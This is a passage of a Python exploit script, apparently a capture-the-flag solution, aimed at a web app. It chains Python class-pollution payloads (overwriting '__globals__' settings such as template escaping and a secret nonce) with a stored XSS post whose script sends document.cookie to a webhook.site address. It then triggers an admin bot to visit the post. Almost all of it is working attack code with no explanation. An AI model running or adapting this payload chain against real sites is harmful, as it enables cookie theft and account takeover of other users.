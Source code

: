 ```
                "__globals__":{
                    "TEMPLATES_ESCAPE_ALL": False
                }
            }
        }
    }

    escape_rule = {
        "policy": "strict"
    }

    secret_nonce = {
        "__class__":{
            "__init__":{
                "__globals__":{
                    "SECRET_NONCE": ""
                }
            }
        }
    }

    random_count = {
        "__class__":{
            "__init__":{
                "__globals__":{
                    "RANDOM_COUNT": 0
                }
            }
        }
    }

    print(f"Polluting TEMPLATES_ESCAPE_ALL")        
    s.post(URL + "save_feedback", json=templates_escape_all)

    print(f"Updating escape rule")
    s.post(URL + "admin/update-accepted-templates", json=escape_rule)

    print(f"Polluting SECRET_NONCE")        
    s.post(URL + "save_feedback", json=secret_nonce)

    print(f"Polluting RANDOM_COUNT")        
    s.post(URL + "save_feedback", json=random_count)

def XSS():
    payload = {
        "title":"""<script nonce="8a5edab282632443219e051e4ade2d1d5bbc671c781051bf1437897cbdfea0f1">window.location='https://webhook.site/39cf3b9c-65eb-4098-a261-e98dc1d8e01b?f='+document.cookie</script>""",
        "content":"",
        "public":1,
        "save":"Save Post"
    }

    print(f"Creating XSS post")        
    s.post(URL + "create_post", data=payload)

    print("Sending XSS to bot")
    s.get(URL + "api/v1/report")

if __name__ == "__main__":
    username = "XSS"
    password = "XSS"
    register(username, password)
```